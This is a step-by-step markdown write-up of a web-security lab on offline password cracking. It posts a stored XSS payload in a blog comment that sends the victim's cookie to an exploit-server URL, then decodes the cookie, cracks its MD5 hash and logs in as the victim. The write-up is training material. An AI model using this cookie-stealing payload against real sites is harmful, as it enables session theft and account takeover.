






# Lab 11 — Offline password cracking

> [← Back to Authentication](../README.md)

---

## 🎯 Objective
Steal Carlos's stay-logged-in cookie via XSS, crack the MD5 hash offline, then login and delete his account.

---

## 🪜 Steps

### Step 1 — Login as wiener
Credentials: `wiener:peter`



---

### Step 2 — Find XSS in blog comments
Go to any blog post → find the comment section → test for XSS.



---

### Step 3 — Prepare exploit server URL
Copy your exploit server URL:
```
https://YOUR-ID.exploit-server.net
```

---

### Step 4 — Inject cookie-stealing payload
In the blog comment, post:
```html
<script>
  document.location='https://YOUR-ID.exploit-server.net/?c='+document.cookie
</script>
```



---

### Step 5 — Capture victim's cookie
Go to **Exploit Server → Access log**.

Find the GET request with the cookie:
```
GET /?stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```



---

### Step 6 — Decode cookie
Base64 decode:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

---

### Step 7 — Crack the MD5 hash
MD5 hash: `26323c16d5f4dabff3bb136f2460a943`

Use an online MD5 cracker (e.g. crackstation.net).

**Cracked password: `onceuponatime`**

---

### Step 8 — Login as Carlos
- **Username:** `carlos`
- **Password:** `onceuponatime`



---

### Step 9 — Delete Carlos's account
Go to **My account → Delete account** → Lab solved!



---

## ✅ Result
- **Carlos password:** `onceuponatime`

---

## 💡 Key Takeaway
Storing password hashes in cookies (even MD5) is dangerous — they can be cracked offline. Always use unpredictable, signed tokens.
